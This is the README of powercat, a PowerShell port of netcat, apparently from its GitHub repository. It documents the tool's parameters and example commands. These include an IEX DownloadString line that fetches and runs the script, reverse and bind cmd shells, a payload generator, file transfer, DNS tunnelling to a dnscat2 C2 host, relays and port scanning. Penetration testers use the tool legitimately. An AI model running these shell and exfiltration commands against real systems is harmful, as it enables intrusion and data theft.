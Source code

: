 powercat
========
Netcat: The powershell version. (Powershell Version 2 and Later Supported)

Installation
------------
powercat is a powershell function.  First you need to load the function before you can execute it.  You can put one of the below commands into your powershell profile so powercat is automatically loaded when powershell starts.
###
    Load The Function From Downloaded .ps1 File:
        . .\powercat.ps1
    Load The Function From URL:
        IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')

### Parameters:
    -l      Listen for a connection.                             [Switch]
    -c      Connect to a listener.                               [String]
    -p      The port to connect to, or listen on.                [String]
    -e      Execute. (GAPING_SECURITY_HOLE)                      [String]
    -ep     Execute Powershell.                                  [Switch]
    -r      Relay. Format: "-r tcp:10.1.1.1:443"                 [String]
    -u      Transfer data over UDP.                              [Switch]
    -dns    Transfer data over dns (dnscat2).                    [String]
    -dnsft  DNS Failure Threshold.                               [int32]
    -t      Timeout option. Default: 60                          [int32]
    -i      Input: Filepath (string), byte array, or string.     [object]
    -o      Console Output Type: "Host", "Bytes", or "String"    [String]
    -of     Output File Path.                                    [String]
    -d      Disconnect after connecting.                         [Switch]
    -rep    Repeater. Restart after disconnecting.               [Switch]
    -g      Generate Payload.                                    [Switch]
    -ge     Generate Encoded Payload.                            [Switch]
    -h      Print the help message.                              [Switch]

Basic Connections
-----------------------------------
By default, powercat reads input from the console and writes input to the console using write-host. You can change the output type to 'Bytes', or 'String' with -o.
###
    Basic Client:
        powercat -c 10.1.1.1 -p 443
    Basic Listener:
        powercat -l -p 8000
    Basic Client, Output as Bytes:
        powercat -c 10.1.1.1 -p 443 -o Bytes
    
File Transfer
-------------
powercat can be used to transfer files back and forth using -i (Input) and -of (Output File).
###
    Send File:
        powercat -c 10.1.1.1 -p 443 -i C:\inputfile
    Recieve File:
        powercat -l -p 8000 -of C:\inputfile

Shells
------
powercat can be used to send and serve shells. Specify an executable to -e, or use -ep to execute powershell.
###
    Serve a cmd Shell:
        powercat -l -p 443 -e cmd
    Send a cmd Shell:
        powercat -c 10.1.1.1 -p 443 -e cmd
    Serve a shell which executes powershell commands:
        powercat -l -p 443 -ep

DNS and UDP
-----------
powercat supports more than sending data over TCP. Specify -u to enable UDP Mode. Data can also be sent to a [dnscat2 server](https://github.com/iagox86/dnscat2) with -dns.
###
    Send Data Over UDP:
        powercat -c 10.1.1.1 -p 8000 -u
        powercat -l -p 8000 -u
    Send Data To the c2.example.com dnscat2 server, sending queries to the dns server on 10.1.1.1:
        powercat -c 10.1.1.1 -p 53 -dns c2.example.com

Relays
------
Relays in powercat work just like traditional netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
###
    TCP Listener to TCP Client Relay:
        powercat -l -p 8000 -r tcp:10.1.1.16:443
    TCP Listener to UDP Client Relay:
        powercat -l -p 8000 -r udp:10.1.1.16:53
    TCP Listener to DNS Client Relay
        powercat -l -p 8000 -r dns:10.1.1.1:53:c2.example.com

Generate Payloads
-----------------
Payloads which do a specific action can be generated using -g (Generate Payload) and -ge (Generate Encoded Payload). Encoded payloads can be executed with powershell -E. You can use these if you don't want to use all of powercat.
###
    Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
        powercat -c 10.1.1.15 -p 443 -e cmd -g
    Generate a bind tcp encoded command which listens on port 8000:
        powercat -l -p 8000 -e cmd -ge

Misc Usage
----------
powercat can also be used to perform portscans, and start persistent servers.
###
    Basic TCP Port Scanner:
        (21,22,80,443) | % {powercat -c 10.1.1.10 -p $_ -t 1 -Verbose -d}
    Start A Persistent Server That Serves a File:
        powercat -l -p 443 -i C:\inputfile -rep

